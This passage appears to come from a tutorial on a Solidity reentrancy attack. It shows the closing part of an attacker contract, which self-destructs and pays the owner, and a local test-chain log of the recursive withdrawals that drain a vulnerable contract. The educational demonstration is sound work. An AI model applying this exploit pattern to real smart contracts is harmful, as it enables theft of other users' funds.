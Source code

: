 ```js
        }
    }

    function get_money () public {
        require (msg.sender == owner);

        console.log ("[Reentrancy-Attacker] self-destructing and sending all funds back to owner:");
        console.logAddress (owner);

        selfdestruct (owner);
    }
}
```

After deploying it and creating some transactions with other accounts (whose ether is what we're trying to steal), we call `addBooty` to set the amount we want to steal on each recursion.
Then, when calling `attack(10)`, this is the result:
```
eth_sendTransaction
  Contract call:       <UnrecognizedContract>
  Transaction:         0xce7463ae25ca46310e1ce0921d4676e344bf5ff6c14a5b69ddf3e38428f1086e
  From:                0xdf3e18d64bc6a983f673ab319ccae4f1a57c7097
  To:                  0xa196769ca67f4903eca574f5e76e003071a4d84a
  Value:               0 ETH
  Gas used:            155117 of 30000000
  Block #12:           0x4fa5a891675a8dfc65ce98c334f60763f55d63230ace169f30766e150f0b8d08

  console.log:
    [Reentrancy-Attacker] started attack() with limit:
    10
    [Reentrancy] withdrawBalance()
    [Reentrancy-Attacker] fallback. Current recursion_limit:
    10
    [Reentrancy-Attacker] calling the victim again...
    [Reentrancy] withdrawBalance()
    [Reentrancy-Attacker] fallback. Current recursion_limit:
    9
    [Reentrancy-Attacker] calling the victim again...
    [Reentrancy] withdrawBalance()
    [Reentrancy-Attacker] fallback. Current recursion_limit:
    8
    [Reentrancy-Attacker] calling the victim again...
    [Reentrancy] withdrawBalance()
    [Reentrancy-Attacker] fallback. Current recursion_limit:
    7
    [Reentrancy-Attacker] calling the victim again...
    [Reentrancy] withdrawBalance()
    [Reentrancy-Attacker] fallback. Current recursion_limit:
    6
    [Reentrancy-Attacker] calling the victim again...
    [Reentrancy] withdrawBalance()
    [Reentrancy-Attacker] fallback. Current recursion_limit:
    5
    [Reentrancy-Attacker] calling the victim again...
    [Reentrancy] withdrawBalance()
    [Reentrancy-Attacker] fallback. Current recursion_limit:
    4
    [Reentrancy-Attacker] calling the victim again...
    [Reentrancy] withdrawBalance()
    [Reentrancy-Attacker] fallback. Current recursion_limit:
    3
    [Reentrancy-Attacker] calling the victim again...
    [Reentrancy] withdrawBalance()
```